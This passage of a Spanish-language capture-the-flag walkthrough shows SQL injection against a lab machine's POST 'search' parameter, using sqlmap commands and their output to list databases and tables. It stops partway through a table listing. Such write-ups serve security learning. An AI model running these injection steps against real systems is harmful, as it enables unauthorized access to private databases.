 Podemos ver que la información se manda en el parámetro **search** a través de una petición por *POST*. Hacemos click con el botón derecho en la petición y seleccionamos `copy to file` para guardar la información en un archivo.txt. <br>
<br>

## SQLMap

Una vez guardado este archivo con las petición vulnerable a inyecciones SQL , usaremos la herramienta **SQLMap** para obtener las bases de datos que haya en el servidor en busca de información que nos pueda ser útil para comprometer la máquina. En este caso usaremos la herramienta descargada del [repositorio de SQLMap](https://github.com/sqlmapproject/sqlmap)
<br>

### Obtener Bases de datos


- `-r` Para especificar el archivo donde guardamos la petición

- `--data` Para especificar que la petición es por POST

- `--dbs` Para encontrar los nombres de las bases de datos 

- `--batch` Para seleccionar las respuestas por defecto que nos hace SQLMap automáticamente


```shell
python sqlmap.py -r <ruta_archivo.txt> --data=search --dbs --batch
```
```
-- output --

---
[00:47:44] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[00:47:44] [INFO] fetching database names
available databases [3]:
[*] information_schema
[*] Staff
[*] users
```

Podemos ver que se encontraron tres bases de datos, las que parecen que pueden tener información relevante son **Staff** y **users**.
<br>

### Obtener Tablas de users


- `-D` Para especificar la base de datos.

- `--tables` Para especificar que queremos obtener las tablas


```shell
python3 sqlmap.py -r <ruta_archivo> -D users --tables
```
```output
-- output --

---
[01:03:14] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[01:03:14] [INFO] fetching tables for database: 'users'
Database: users
[1 table]
+-------------+
```